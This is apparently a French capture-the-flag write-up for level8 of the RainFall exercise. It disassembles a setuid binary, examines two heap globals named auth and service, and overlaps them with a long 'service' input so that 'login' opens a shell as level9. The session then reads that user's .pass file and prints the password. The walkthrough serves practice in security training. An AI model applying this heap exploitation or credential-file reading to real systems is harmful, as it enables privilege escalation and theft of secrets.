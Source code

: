 On trouve un executable:
```
level8@RainFall:~$ ls
level8
level8@RainFall:~$ ./level8
(nil), (nil)
jj
(nil), (nil)
nil
(nil), (nil)
(nil), (nil)
(nil), (nil)
^C
```

On desassemble le main afin de comprendre ce qu'il s'y passe:

```
objdump -M intel -d level8
 8048575:	8b 0d b0 9a 04 08    	mov    ecx,DWORD PTR ds:0x8049ab0
 804857b:	8b 15 ac 9a 04 08    	mov    edx,DWORD PTR ds:0x8049aac
 8048581:	b8 10 88 04 08       	mov    eax,0x8048810
 8048586:	89 4c 24 08          	mov    DWORD PTR [esp+0x8],ecx
 804858a:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804858e:	89 04 24             	mov    DWORD PTR [esp],eax
 8048591:	e8 7a fe ff ff       	call   8048410 <printf@plt>
```

Interessons nous aux 2 premieres lignes il s'agit de la definition de 2 variabnles globales:
```
gdb ./level8
break fgets # on met un breakpoint sur le premier fgets
r
x/20w 0x08049aac # regardons la premiere variable
x/20w 0x08049ab0 # et la deuxieme
```

On voit qu'il s'agit de 2 variables globales appelées auth et service.
On voit par la suite que auth se fait malloc et que la data après auth est enregistrée dans un malloc(4) avec un strcpy
Pareil pour service mais avec un strdup(8).

```
./level8
(nil), (nil)
auth a
0x804a008, (nil)
service a
0x804a008, 0x804a018
```

Maintenant malheuresement l'etape que tu redoutes arrive :).
Finit de trouver des bugs dans du source code, il va falloir lire de la doc et traduire en C le code :)
VOus retrouverez le pseudo code en C dans le fichier source

Bon grosso modo c'est une boucle inf dans lequel ya des strcmp ;) l'idee va etre de les faire peter.
On s'est rendu compte precedemment que auth et service etaient tres proche dans la memoire.
Si on arrive à les faire se toucher alors le login ne trouvera pas NULL et donc win :)

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service!@#$%^&*(*^%$#$%^&*(
0x804a008, 0x804a018
login
$ ls
ls: cannot open directory .: Permission denied
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
